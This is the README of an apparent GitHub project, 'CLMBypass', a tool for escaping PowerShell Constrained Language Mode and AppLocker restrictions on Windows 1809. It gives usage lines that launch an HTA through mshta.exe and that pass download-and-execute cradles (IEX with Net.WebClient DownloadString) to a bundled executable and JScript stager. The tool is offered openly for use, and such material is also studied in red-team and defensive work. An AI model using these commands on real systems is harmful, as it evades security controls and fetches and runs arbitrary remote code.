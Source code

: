 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr></hr>

### CLMBypass.hta [A][C]
- The WScript.Shell creates a new runspace
- `payload.ps1` is downloaded and executed in FullLanguage mode
- **Usage:** mshta.exe http://localhost/CLMBypass.hta`

### CLMBypass.js [A][C]
- Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
- **Usage:** On Line 131 you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
- when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).

### CLMBypass.exe [C]
- Compiled as PE32 .NET Framework 4.0
- **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`

### Program.cs
- C# source code for CLMBypass.dll, a little outdated for the PE

### payload.ps1
- payload to be run in FullLanguage mode
